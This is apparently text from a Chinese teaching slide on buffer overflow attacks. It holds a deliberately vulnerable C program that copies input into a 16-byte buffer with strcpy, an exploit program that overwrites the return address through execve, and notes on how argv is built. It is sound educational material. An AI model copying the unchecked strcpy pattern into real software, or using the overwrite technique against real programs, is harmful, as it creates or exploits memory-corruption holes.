

#include "stdio.h"
#include "string.h"
void outputs(char *str)
{
    char buffer[16];
    strcpy(buffer,str);
    printf("%s \n", buffer);
}
void hacker(void)
{
    printf("being hacked\n");
}
int main(int argc, char *argv[])
{
    outputs(argv[1]);
    return 0;
}
# 缓冲区溢出攻击

#include "stdio.h"
char code[]=
      "0123456789ABCDEFXXXX"
      "\x11\x84\x04\x08"
      "\x00";
int main(void)
{
      char *argv[3];
      argv[0]="./test";
      argv[1]=code;
      argv[2]=NULL;
      execve(argv[0],argv,NULL);
      return 0;
}

         可执行文件名为test
命令行：.\test 0123456789ABCDEFXXXX▥▧▥▧
argv[]

“./test＂
 argv[0]
argv

 argv[1]
“0123456789ABCDEFXXXX▥▧▥▧”

  null
按空格隔开的字符串
被构建成一个指针数组